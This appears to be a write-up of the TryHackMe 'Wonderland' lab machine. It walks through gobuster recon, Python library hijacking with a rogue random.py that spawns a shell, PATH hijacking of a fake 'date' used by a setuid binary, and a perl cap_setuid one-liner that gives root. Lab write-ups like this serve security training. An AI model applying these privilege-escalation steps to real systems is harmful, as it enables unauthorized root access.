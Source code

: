 # what I learned
- python libary hijacking
- path varible hijacking (do it call like this?)
- perl Capabilities GTFObin 
# recon
- 22 ssh
- 80 http
gobuster for directory brute forcing and what I got after run 4 times was `/r/a/b/b` and it kick me, *rabb* uhmmmm.. it might be *rabbit* so visit `r/a/b/b/i/t` and BING GO! 

check the sourc code. you will find a credential
`alice:<password>`

now ssh to victim server. after some enumeration:
```console
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ ls -la
total 40
drwxr-xr-x 5 alice alice 4096 May 25 17:52 .
drwxr-xr-x 6 root  root  4096 May 25 17:52 ..
lrwxrwxrwx 1 root  root     9 May 25 17:52 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25 02:36 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25 02:36 .bashrc
drwx------ 2 alice alice 4096 May 25 16:37 .cache
drwx------ 3 alice alice 4096 May 25 16:37 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25 02:52 .local
-rw-r--r-- 1 alice alice  807 May 25 02:36 .profile
-rw------- 1 root  root    66 May 25 17:08 root.txt
-rw-r--r-- 1 root  root  3577 May 25 02:43 walrus_and_the_carpenter.py
alice@wonderland:~$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)
alice@wonderland:~$ ls ../
alice  hatter  rabbit  tryhackme
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
okey there are 4 user on the server: alice, hatter, rabbit, and tryhackme. Moreover, we are allow to run `/usr/bin/python3.6` and `/home/alice/walrus_and_the_carpenter.py` and *rabbit* 

let find out what `walrus_and_the_carpenter.py` can do. by `cat` it and run it
```py
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
.
.
.
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
seem like it randomly pick one of the poem and print it out. as you can see the code `import random` libary/module which can can hijack it easily by just create a anoter script call `random.py` at the same directory. Moreover, we need to create a method call `choice` (since the poem script it using it)

what our the our method (`choice`) will do is generate a shell which will escalte us to rabbit user. so in `random.py` add this lines of code
```py
import os
def choice(arg):
    os.system("/bin/bash") # shell
```
now run it
```console
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
now again let explore around.
```
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25 17:58 .
drwxr-xr-x 6 root   root    4096 May 25 17:52 ..
lrwxrwxrwx 1 root   root       9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25 03:01 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25 03:01 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25 03:01 .profile
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty
rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Tue, 04 Aug 2020 18:25:51 +0000
Ask very nicely, and I will give you some tea while you wait for him
now
Segmentation fault (core dumped)
```
`teaParty` is a executeable files, ELF type. After try running the script a fews time. whatever the input is, `teaParty` always give output as `Segmentation fault (core dumped)`

let send `teaParty` back to our kali to examing it. I used `Ghrida` to decomplie it to C. the code belows show that `teaParty` do:
```c
void main(void)
{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```
the first to line is `setuid(0x3eb); setgid(0x3eb);` seem liek the script is set the current user to user ID 0x3eb which is **hatter**. 

The most interesting part is
```system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");``` which allow us to hijack `/bin/date`. Same plan as what we did before with `random.py`. Now create a file call date which contain the code below:
```bash
#!/bin/bash
/bin/bash # spawn shell
```
now we gonna at new home directory which contain our shell (`date`) in the PATH varible. This will fool the system to execute our "evile" `date` instead for excuting `/bin/date`.
```console
rabbit@wonderland:/home/rabbit$ PATH=/home/rabbit:$PATH # add path
rabbit@wonderland:/home/rabbit$ ./teaParty # execute it
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```
Boom we are in as **hatter**
```console
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
<hatter password>
```
# root
I ran `linpeas.sh`. and bingo I found some joiucy shit (again)
```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
after reading the link (https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities) and some research, I found perl GTFObins (https://gtfobins.github.io/gtfobins/perl/) So let root this baby!!!
```console
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
```
